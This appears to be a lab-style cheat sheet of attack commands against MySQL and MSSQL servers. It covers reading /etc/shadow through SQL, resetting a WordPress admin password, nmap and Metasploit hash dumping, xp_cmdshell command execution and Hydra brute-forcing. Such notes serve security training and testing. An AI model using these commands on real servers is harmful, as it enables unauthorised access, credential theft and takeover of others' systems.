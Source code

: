 # Initial Enumeration

- `mysql -h 192.71.145.3 -u root`
	- show databases;
	- use books;
	- show tables;
	- select count(\*) from authors;
	- select load_file("/etc/shadow");
	- UPDATE <table> SET <field> = <value> WHERE <field2> = <value>;
	- UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

# Nmap scripts

- mysql-empty-password : check anon login
- example 'nmap -sV -p 3306 --script=mysql-empty-password <target>'
- mysql-info : check InteractiveClient capability
- mysql-users --script-args="mysqluser='root',mysqlpass=''"
- mysql-databases --script-args="mysqluser='root',mysqlpass=''"
- mysql-variables --script-args="mysqluser='root',mysqlpass=''" : check data-dir
- mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" : check if file privs can be granted
- mysql-dump-hashes --script-args="username='root',password=''"
- mysql-query --script-args="query='select count(\*) from books.authors;',username='root',password=''"
- ms-sql-info
- ms-sql-ntlm-info --script-args mssql.instance-port=1433
- ms-sql-brute --script-args userdb=<userlist>,passdb=<passlist>

![nmap ms-sql-brute output](./images/sql-01.png)

- ms-sql-empty-password
- ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" 
- ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
	
# Metasploit Modules

- auxiliary/scanner/mysql/mysql_schemadump : Dump the schema of all databases from the server  ￼

![metasploit mysql_schemadump output](./images/sql-02.png)

- auxiliary/scanner/mysql/mysql_writable_dirs : writable dirs
- auxiliary/scanner/mysql/mysql_file_enum : readable files
- auxiliary/scanner/mysql/mysql_hashdump : database users hashdump

![metasploit mysql_hashdump output](./images/sql-03.png)

- auxiliary/scanner/mysql/mysql_login
- auxiliary/scanner/mssql/mssql_login
- auxiliary/admin/mssql/mssql_enum
- auxiliary/admin/mssql/mssql_enum_sql_logins : user enum
- auxiliary/admin/mssql/mssql_exec : execute a cmd is xp_cmdshell enabled
- auxiliary/admin/mssql/mssql_enum_domain_accounts : mps the information such as Windows domain users, groups, and computer accounts
  
  ![metasploit mysql_enum_domain_accounts output](./images/sql-04.png)
  
- auxiliary/admin/mysql/mysql_sql - needs creds to run sql queries.
- wordlists: 
	- usr/share/metasploit-framework/data/wordlists/directory.txt
	- usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Hydra

- `hydra -l <user> -P <wordlist> <ip> mysql`
